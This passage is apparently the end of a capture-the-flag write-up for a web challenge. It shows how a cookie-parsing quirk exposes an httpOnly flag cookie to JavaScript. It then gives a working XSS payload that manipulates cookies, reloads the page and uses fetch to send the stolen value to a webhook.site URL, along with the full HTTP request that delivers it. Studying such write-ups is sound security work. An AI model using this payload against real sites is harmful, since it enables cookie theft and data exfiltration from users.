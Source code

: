 > *More at: [https://blog.ankursundara.com/cookie-bugs/](https://blog.ankursundara.com/cookie-bugs/){:target="_blank"}*

In our case, `theme` cookie is the cookie that gets rendered and `flag` cookie is the httpOnly cookie we want to steal.

Let's try setting `theme` cookie to `"light`, `flag` cookie to fake flag value, and `asdf` cookie to `pozz"` and refresh the page.

![](/uploads/{{ page.permalink }}/ss25.png)

Great! Our `flag` cookie, even though it's httpOnly, is now rendered on the page and is **readable by JavaScript**. Now we need to complete our payload.

The form only lets us set one cookie to open double quotes. However, since we can already exploit XSS, we can use JS to set a second cookie with the closing quotes. We will also need to reload the page to see those cookie manipulations in action, and we should check if the second cookie is set to prevent accidental inifite reloads. After reloading, flag value should appear on the theme toggle button, just like on the screenshot above. Finally, use fetch to exfiltrate whatever is written on that button to get the flag. The code should look like this:

```html
<script>
    if (!document.cookie.split('; ').find(row => row.startsWith('asdf='))) {
        document.cookie = `asdf=pozz\"; path=/`;
        location.reload();
    } else {
        fetch(`https://webhook.site/UUID/?flag=${document.getElementById('theme-toggle').textContent}`);
    }
</script>
```

We can remove the whitespaces from the code to keep it in a single line. Our final request that will exfiltrate the flag is below:

```
POST /report HTTP/1.1
Host: localhost:2000
Content-Type: application/json

{
    "description": "poz",
    "theme": "\"light",
    "pageUrl":"http://localhost:2000/search?q=<script>if (!document.cookie.split('; ').find(row => row.startsWith('asdf='))){document.cookie=`asdf=pozz\"; path=/`;location.reload();}else{fetch(`https://webhook.site/5d59809f-809e-438a-aea6-a6038cb363ca/?flag=${document.getElementById('theme-toggle').textContent}`);}</script>"
}
```

Here is the flag! 🚩

![](/uploads/{{ page.permalink }}/ss26.png)

# Final Thoughts
